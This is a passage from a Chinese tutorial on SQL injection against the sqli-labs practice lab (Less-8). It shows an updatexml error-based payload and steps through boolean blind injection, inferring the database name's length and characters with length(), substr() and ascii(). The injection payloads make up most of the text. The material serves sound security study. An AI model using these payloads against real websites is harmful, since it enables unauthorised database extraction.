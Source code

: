 payload：

```
and updatexml(1,concat(0x7e,(payload),0x7e),1)
```



## GET 布尔盲注

在没有报错信息时，根据页面回显情况不同考虑布尔盲注

**1.检测是否存在注入点**

```
http://localhost/sqlilabs/Less-8/?id=1     #页面正常显示
```

![image-20201130203312421](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130203312421.png)

```
http://localhost/sqlilabs/Less-8/?id=1'    #无报错信息，但不返回"You are in......"
```

![image-20201130203507136](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130203507136.png)

**2.判断当前数据库的长度**

```
http://localhost/sqlilabs/Less-8/?id=1' and length(database()) > 5--+
```

![image-20201130204339111](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130204339111.png)

**length(str)**      返回字符串长度

页面显示正常，说明库名长度大于5

```
http://localhost/sqlilabs/Less-8/?id=1' and length(database()) > 10--+
```

![image-20201130204918453](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130204918453.png)

继续判断库名长度，此页面表示其小于10

缩小范围判断，得出当前库名长度为8

**3.判断当前数据库的第一个字符**

```
http://localhost/sqlilabs/Less-8/?id=1' and ascii(substr(database(),1,1)) = 115--+
```

![image-20201130205353557](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201130205353557.png)

**ASCII(s)**      返回字符串 s 的第一个字符的 ASCII 码

**SUBSTR(s, n, len)**      从字符串 s 的 n 位置截取长度为 len 的子字符串

页面显示正常，说明当前数据库的第一个字符的ascii码是115，对应s
